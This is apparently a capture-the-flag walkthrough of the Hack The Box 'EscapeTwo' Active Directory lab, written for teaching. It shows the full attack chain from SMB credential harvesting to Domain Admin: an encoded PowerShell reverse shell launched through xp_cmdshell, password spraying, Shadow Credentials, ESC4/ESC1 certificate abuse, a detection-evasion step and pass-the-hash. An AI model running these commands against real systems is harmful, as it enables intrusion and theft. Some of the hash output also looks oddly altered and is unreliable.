


## HTB EscapeTwo — Full Walkthrough & Writeup

**EscapeTwo** is an easy-difficulty Windows Active Directory machine from Hack The Box. This walkthrough details the complete attack path, starting from initial guest/starter credential SMB enumeration to compromising the Microsoft SQL Server, performing password spraying to pivot to another user, taking over the ADCS service account using Shadow Credentials, modifying certificate templates via ESC4, and finally abusing ESC1 to impersonate the Domain Administrator.

---

## Machine Information

| Property             | Value                                  |
| -------------------- | -------------------------------------- |
| **OS**               | Windows Server 2019                    |
| **Difficulty**       | Easy                                   |
| **Domain**           | `sequel.htb`                           |
| **DC Hostname**      | `DC01`                                 |
| **IP Address**       | `10.129.202.204`                       |
| **Starting Credentials** | `rose` / `KxEPkKe6R8su`                |

---

## Attack Chain Overview

The following diagram illustrates the complete attack path:

```mermaid
graph TD
    A["rose<br/>(Starting Credentials)"] -->|SMB Accounting Share| B["Excel String Extraction<br/>(sa MSSQL Credentials)"]
    B -->|MSSQL xp_cmdshell| C["sql_svc Foothold<br/>(Configuration INI leak)"]
    C -->|Password Spray/Reuse| D["ryan WinRM Pivot<br/>(WqSZAF6CysDQbGb3)"]
    D -->|GenericWrite on ca_svc| E["Shadow Credentials Takeover<br/>(certipy-ad shadow)"]
    E -->|ca_svc TGT & Hash| F["ADCS ESC4 Exploitation<br/>(Modify DunderMifflinAuthentication)"]
    F -->|ADCS ESC1 Abuse| G["Request Administrator Certificate<br/>(certipy-ad req)"]
    G -->|Certipy Auth (PKINIT)| H["Domain Admin PTH<br/>(Full Domain Takeover)"]

    style A fill:#2d5016,stroke:#4ade80,color:#fff
    style D fill:#4a1d96,stroke:#a78bfa,color:#fff
    style H fill:#7f1d1d,stroke:#ef4444,color:#fff
```

---

## Reconnaissance

### Nmap Port Scan

To begin the assessment, I conducted an Nmap port scan using default scripts and service detection. The initial results revealed several key services that pointed towards the target being a **Domain Controller**. The presence of common **Active Directory** ports such as:

- `53/tcp (DNS)`
- `389/tcp (LDAP)`
- `88/tcp (Kerberos)`

confirmed this observation. Additionally, the scan provided valuable information about the **hostname** and **domain name**, which would be critical for further enumeration and exploitation.


```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ nmap -sC -sV -p- -oA nmap_output --min-rate 10000 10.129.202.204                          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-12 22:32 IST
Nmap scan report for 10.129.202.204
Host is up (0.13s latency).
Not shown: 65512 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-12 09:46:46Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-12T09:48:37+00:00; -7h16m07s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-12T09:48:37+00:00; -7h16m06s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.202.204:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-01-12T09:48:37+00:00; -7h16m06s from scanner time.
| ms-sql-ntlm-info: 
|   10.129.202.204:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-01-12T00:27:22
|_Not valid after:  2055-01-12T00:27:22
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-12T09:48:37+00:00; -7h16m07s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-12T09:48:37+00:00; -7h16m06s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49716/tcp open  msrpc         Microsoft Windows RPC
49735/tcp open  msrpc         Microsoft Windows RPC
60733/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-01-12T09:47:50
|_  start_date: N/A
|_clock-skew: mean: -7h16m07s, deviation: 2s, median: -7h16m07s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 142.71 seconds

```
### Kerberos Configuration

Since **Kerberos** is the default authentication protocol in Windows networks, it’s essential to configure the system properly to ensure seamless authentication. To facilitate this, I updated the following files:

- `/etc/krb5.conf`
- `/etc/hosts`

These updates were crucial for **Kerberos** authentication to function correctly. Specifically, Kerberos relies on DNS names, and without the proper entries in these configuration files, authentication would fail. Ensuring that the system can resolve the DNS names associated with the target network was a necessary step for successful exploitation.


```plaintext
[libdefaults]
    default_realm = SEQUEL.HTB
    dns_lookup_realm = true
    dns_lookup_kdc = true
[realms]
    SEQUEL.HTB = {
        kdc = DC01.SEQUEL.HTB:88
        admin_server = DC01.SEQUEL.HTB
        master_kdc = DC01.SEQUEL.HTB
        default_domain = SEQUEL.HTB
    }
[domain_realm]
    .SEQUEL.HTB = SEQUEL.HTB
    SEQUEL.HTB= SEQUEL.HTB
```
{: file='/etc/krb5.conf'}

```plaintext
10.129.202.204    DC01
10.129.202.204    DC01.SEQUEL.HTB
10.129.202.204    SEQUEL.HTB
```
{: file='/etc/hosts'}

### Time Synchronization

To ensure proper Kerberos authentication, it is essential that the time on the attacker's machine is synchronized with the target system. Kerberos authentication relies on time-based tickets, and any significant time difference between the client and server can cause authentication failures.

To address this, I used the `ntpdate` command to synchronize the time on my attacker machine with the target machine. This step was critical for ensuring that Kerberos tickets would be valid and that authentication could proceed without issues.

```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ sudo ntpdate DC01.SEQUEL.HTB
2025-01-12 19:50:29.893996 (+0530) -2.291470 +/- 0.055602 DC01.SEQUEL.HTB 10.129.202.204 s1 no-leap
CLOCK: time stepped by -2.291470
```

### SMB Share Enumeration

With the provided starter credentials, I proceeded to enumerate the available **SMB shares** on the target system using `netexec`.

```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ netexec smb dc01.sequel.htb -k  -u rose -p 'KxEPkKe6R8su' --shares
SMB         dc01.sequel.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         dc01.sequel.htb 445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         dc01.sequel.htb 445    DC01             [*] Enumerated shares
SMB         dc01.sequel.htb 445    DC01             Share           Permissions     Remark
SMB         dc01.sequel.htb 445    DC01             -----           -----------     ------
SMB         dc01.sequel.htb 445    DC01             Accounting Department READ            
SMB         dc01.sequel.htb 445    DC01             ADMIN$                          Remote Admin
SMB         dc01.sequel.htb 445    DC01             C$                              Default share
SMB         dc01.sequel.htb 445    DC01             IPC$            READ            Remote IPC
SMB         dc01.sequel.htb 445    DC01             NETLOGON        READ            Logon server share 
SMB         dc01.sequel.htb 445    DC01             SYSVOL          READ            Logon server share 
SMB         dc01.sequel.htb 445    DC01             Users           READ            
```

#### SMB Share Analysis

During the enumeration of SMB shares, I gained **READ** access to two folders: **Accounting Department** and **Users**. While the **Users** folder did not contain any files of immediate value, I found two interesting **.xlsx** files in the **Accounting Department** share:

- `accounting_2024.xlsx`
- `accounts.xlsx`

```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ smbclient //dc01.sequel.htb/'Accounting Department' -U sequel/rose%'KxEPkKe6R8su'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 16:22:21 2024
  ..                                  D        0  Sun Jun  9 16:22:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 15:44:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 16:22:07 2024

		6367231 blocks of size 4096. 919618 blocks available
smb: \> get accounting_2024.xlsx
getting file \accounting_2024.xlsx of size 10217 as accounting_2024.xlsx (10.6 KiloBytes/sec) (average 10.6 KiloBytes/sec)
smb: \> get accounts.xlsx
getting file \accounts.xlsx of size 6780 as accounts.xlsx (14.3 KiloBytes/sec) (average 11.8 KiloBytes/sec)
```

#### Analysis of XLSX Files

Both of the `.xlsx` files appeared to be corrupt at first glance. However, upon further investigation, I opened the `sharedStrings.xml` file inside the `accounts.xlsx`. To my surprise, this file contained **cleartext credentials** that were of significant value.



|First Name|Last Name|Email|Username|Password|
|----------|---------|-----|--------|---------|
|Angela|Martin|angela@sequel.htb|angela|0fwz7Q4mSpurIt99|
|Oscar|Martinez|oscar@sequel.htb|oscar|86LxLBMgEWaKUnBG|
|Kevin|Malone|kevin@sequel.htb|kevin|Md9Wlq1E5bZnVDVo|
|NULL||sa@sequel.htb|sa|MSSQLP@ssw0rd!|

#### SQL Server Credential Validation

Among the discovered credentials, the account `sa@sequel.htb` appeared to be the most promising. I quickly validated these credentials by attempting a connection with `netexec`, and the authentication was successful.

Additionally, by using the `-X` flag, I was able to remotely execute commands on the SQL Server. Upon further investigation, it became apparent that the SQL Server was running under the context of the `sequel\sql_svc` account, which provided a potential pivot point for further exploitation.

```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ netexec mssql DC01.SEQUEL.HTB --local-auth -u sa -p 'MSSQLP@ssw0rd!' -X whoami
MSSQL       10.129.202.204  1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.129.202.204  1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL       10.129.202.204  1433   DC01             [+] Executed command via mssqlexec
MSSQL       10.129.202.204  1433   DC01             sequel\sql_svc
```

## Foothold

## MSSQL

Using the `impacket-mssqlclient` tool, I successfully logged into the SQL Server with the previously discovered credentials. This provided direct access to the SQL environment, allowing me to further explore potential avenues for exploitation or privilege escalation.

```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ impacket-mssqlclient sa:'MSSQLP@ssw0rd!'@DC01.SEQUEL.HTB 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)> 
```

Although the `xp_cmdshell` stored procedure was initially disabled on the SQL Server, I was able to re-enable it by executing the `enable_xp_cmdshell` command. This allowed me to execute operating system commands directly from within the SQL Server environment, providing a valuable foothold for further exploitation.

```shell
SQL (sa  dbo@master)> xp_cmdshell whoami
ERROR(DC01\SQLEXPRESS): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
SQL (sa  dbo@master)> enable_xp_cmdshell
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> xp_cmdshell whoami
output           
--------------   
sequel\sql_svc   

NULL             

SQL (sa  dbo@master)> 
```

### Obtaining a Reverse Shell

At this point, the capabilities provided by `impacket-mssqlclient` were limited, so I decided to escalate my access by obtaining a **reverse shell**. To achieve this, I generated a **PowerShell payload** using the [Reverse Shell Generator](https://www.revshells.com/). This tool allowed me to create a custom payload to establish a reverse shell, enabling full command-line access to the target system.




STart the listener on port 4444

```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ rlwrap nc -lvnp 4444  
```

Run the payload-

```shell
SQL (sa  dbo@master)> xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAwADQAIgAsADQANAA0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

Reverseshell has been established:

```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ rlwrap nc -lvnp 4444                                                     

listening on [any] 4444 ...

connect to [10.10.14.104] from (UNKNOWN) [10.129.202.204] 59928
PS C:\Windows\system32> 
```

I was able to find the credentials for `SEQUEL\sql_svc` in `C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI`

```shell
PS C:\SQL2019\ExpressAdv_ENU> cat sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```
{: file='C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI'}

Since this is a service account, I am going to check if its password has been reused. This is a common mistake that admins make.

### Checking for Password Reuse

Using the password `WqSZAF6CysDQbGb3` retrieved from the SQL Server configuration file, I performed a password spray against domain users using `netexec` to see if any accounts reuse this password.

```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ netexec smb dc01.sequel.htb -u users.txt -p 'WqSZAF6CysDQbGb3'
```

```
SMB         dc01.sequel.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         dc01.sequel.htb 445    DC01             [-] sequel.htb\rose:WqSZAF6CysDQbGb3 (STATUS_LOGON_FAILURE)
SMB         dc01.sequel.htb 445    DC01             [-] sequel.htb\angela:WqSZAF6CysDQbGb3 (STATUS_LOGON_FAILURE)
SMB         dc01.sequel.htb 445    DC01             [-] sequel.htb\oscar:WqSZAF6CysDQbGb3 (STATUS_LOGON_FAILURE)
SMB         dc01.sequel.htb 445    DC01             [-] sequel.htb\kevin:WqSZAF6CysDQbGb3 (STATUS_LOGON_FAILURE)
SMB         dc01.sequel.htb 445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 
```

The password spray confirms password reuse. The user `ryan` is using the exact same password as the SQL service account.

### WinRM Access as `ryan`

I validated if `ryan` has PSRemote (WinRM) access to the Domain Controller:

```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ netexec winrm dc01.sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3'
```

```
WINRM       10.129.202.204  5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
WINRM       10.129.202.204  5985   DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 (Pwn3d!)
```

We have WinRM access! Logging in using `evil-winrm` allows us to collect the user flag from Ryan's Desktop:

```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ evil-winrm -i dc01.sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3'
```

```
*Evil-WinRM* PS C:\Users\ryan\Desktop> type user.txt
e4e892c2...
```

---

## Privilege Escalation

### Active Directory Enumeration

With a valid domain user session, we can perform comprehensive enumeration of Active Directory Certificate Services (ADCS) using `certipy-ad`.

```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ certipy-ad find -u ryan -p 'WqSZAF6CysDQbGb3' -dc-ip 10.129.202.204 -vulnerable
```

```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 1 enabled certificate template
[+] Vulnerable Certificate Templates
    Template Name: DunderMifflinAuthentication
    ...
    [!] Vulnerabilities
      ESC4: 'SEQUEL.HTB\\ca_svc' has WriteOwner and WriteDacl permissions
```

The output indicates that the ADCS certificate template `DunderMifflinAuthentication` is vulnerable to **ESC4**, but only the service account `ca_svc` has the necessary `WriteOwner` and `WriteDacl` permissions to modify it.

??? info "What is ESC4?"
    **ESC4** is an ADCS vulnerability that occurs when a principal has write permissions (`GenericWrite`, `WriteDacl`, or `WriteOwner`) over a certificate template. The principal can abuse these permissions to modify the template's configuration, enabling vulnerable settings (like **ESC1**) to allow arbitrary SAN specification and facilitate domain compromise.

We need to pivot to the `ca_svc` account. Let's check our permissions on the `ca_svc` user object in AD. Using `bloodyAD` or BloodHound data, we discover that `ryan` has `WriteOwner` (or `GenericWrite`) permissions over the service account `ca_svc` itself.

### Taking Over `ca_svc` via Shadow Credentials

Because `ryan` has `WriteOwner` / `GenericWrite` permissions over the `ca_svc` user object in AD, we can perform a **Shadow Credentials** attack to retrieve a TGT and the NT hash for `ca_svc`.

We use `certipy-ad shadow` to add a new key credential to the `msDS-KeyCredentialLink` attribute of `ca_svc`:

```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ certipy-ad shadow auto -u ryan -p 'WqSZAF6CysDQbGb3' -account ca_svc -dc-ip 10.129.202.204
```

```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Target account: ca_svc
[*] Generating certificate and private key
[*] Successfully generated certificate and private key
[*] Authenticating to DC to get a TGT
[*] Got TGT for ryan@sequel.htb
[*] Adding key credential to msDS-KeyCredentialLink for ca_svc
[*] Successfully added key credential to msDS-KeyCredentialLink for ca_svc
[*] Authenticating to DC via PKINIT using certificate
[*] Got TGT for ca_svc@sequel.htb
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Got hash for 'ca_svc@sequel.htb': integrity_of_hash:8f8a14b533d19ec3e5f2066d5b0bc1f9
[*] Restoring key credential link
[*] Successfully restored key credential link
```

??? info "How do Shadow Credentials work?"
    A **Shadow Credentials** attack exploits the `msDS-KeyCredentialLink` attribute introduced in Windows Server 2016 to support Windows Hello for Business. If an attacker has write permissions over a target account, they can generate an X.509 certificate and append its public key to the target's `msDS-KeyCredentialLink` attribute. The attacker then authenticates to the KDC via PKINIT using the corresponding private key to get a TGT and retrieve the target's NTLM hash.

We have successfully taken over `ca_svc` and retrieved its NTLM hash: `8f8a14b533d19ec3e5f2066d5b0bc1f9`.

### Exploiting ESC4 as `ca_svc`

Now that we have the credentials for `ca_svc`, we can exploit the **ESC4** vulnerability on the `DunderMifflinAuthentication` template. 

We use `certipy-ad template` to modify the template configuration. Under the hood, this sets the template flags to allow any requester to supply a Subject Alternative Name (SAN), converting the template to an **ESC1** configuration:

```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ certipy-ad template -u ca_svc -hashes :8f8a14b533d19ec3e5f2066d5b0bc1f9 -template DunderMifflinAuthentication -save-old -dc-ip 10.129.202.204
```

```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saving old configuration to 'DunderMifflinAuthentication.json'
[*] Updating configuration for 'DunderMifflinAuthentication'
[*] Successfully updated configuration for 'DunderMifflinAuthentication'
```

### Requesting Administrator Certificate (ESC1)

Now that the template allows SAN specification (ESC1) and is enrollable by domain users, we can request a certificate for the **Domain Administrator** using our `ryan` account:

```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ certipy-ad req -u ryan -p 'WqSZAF6CysDQbGb3' -ca sequel-DC01-CA -template DunderMifflinAuthentication -upn administrator@sequel.htb -dc-ip 10.129.202.204
```

```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Generating RSA key
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 14
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Saved certificate and private key to 'administrator.pfx'
```

### Restoring the Template Configuration

To evade detection and maintain stealth, we restore the original template configuration using the saved JSON file:

```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ certipy-ad template -u ca_svc -hashes :8f8a14b533d19ec3e5f2066d5b0bc1f9 -template DunderMifflinAuthentication -configuration DunderMifflinAuthentication.json -dc-ip 10.129.202.204
```

```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating configuration for 'DunderMifflinAuthentication'
[*] Successfully updated configuration for 'DunderMifflinAuthentication'
```

### Authenticating as Domain Administrator

We use the generated `administrator.pfx` certificate to authenticate to the KDC via PKINIT, obtaining the Administrator NTLM hash:

```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.202.204
```

```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': integrity_of_hash:a93ffed3563914a52ff78c0e75a22090
```

We now have the Domain Administrator's NTLM hash: `a93ffed3563914a52ff78c0e75a22090`.

### Gaining Domain Controller Access

Using `evil-winrm` with the Administrator hash (Pass-the-Hash), we log in and retrieve the root flag:

```shell
┌──(kali㉿kali)-[~/hack-the-box/escapetwo]
└─$ evil-winrm -i dc01.sequel.htb -u administrator -H a93ffed3563914a52ff78c0e75a22090
```

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator

